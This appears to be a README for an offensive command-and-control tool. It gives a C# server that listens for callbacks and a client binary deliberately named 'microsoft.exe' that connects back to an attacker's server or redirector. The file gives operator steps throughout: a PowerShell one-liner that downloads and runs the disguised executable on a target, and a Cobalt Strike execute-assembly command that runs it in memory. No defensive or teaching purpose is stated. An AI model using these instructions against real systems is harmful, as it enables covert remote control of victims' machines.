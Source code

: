 # Remote Process Tool
	Remote Process Tool is a C# .Net Core Server and .Net Framework Client
	The tool can be staged to be run in targets memory
	The tool can also be executed through a Cobalt Strike beacon

# C2 Server Setup
# Linux Server Guide

	- Linux server ELF is found in Server/linux-x64/publish/DLServer

	- chmod DLServer and run it by calling ./DLServer [port]

	- This will start a TcpListener on port "port" *If port is left blank the default port is set to 8080*


# Windows Server Guide

	- Windows server EXE is found in Server\win-x64\publish\DLServer.exe

	- This can be run by calling .\DLServer.exe [port]

	- This will start a TcpListener on port "port" *If port is left blank the default port is set to 8080*


# Target Execution Guide

	- The target EXE is found in the "WinBinary" directory labelled as "microsoft.exe"

	- If you are using a redirector run the command ".\microsoft.exe [redirector_ip] [redirector_port]"

	- If you are doing a straight callback to your server run the command ".\microsoft.exe [your_ip] [your_port]" *Note this is not recommended*


# Attacker Execution Guide (No Cobalt)

	- Setup your redirector to listen and forward to your DLServer

	- Host the windows executable on a HTTP server

	- Run the following command on the client to download and execute:
		"Invoke-WebRequest "hosted_exe" -OutFile microsoft.exe;.\microsoft.exe [server/redirector ip] [server/redirector port]" or do whatever you want

# Cobalt Beacon Guide

	- Once you have a beacon you may execute the following Cobalt command to run the executable in memory:
		"execute-assembly [location_to_exe] [server/redirector ip] [server/redirector port]" 	
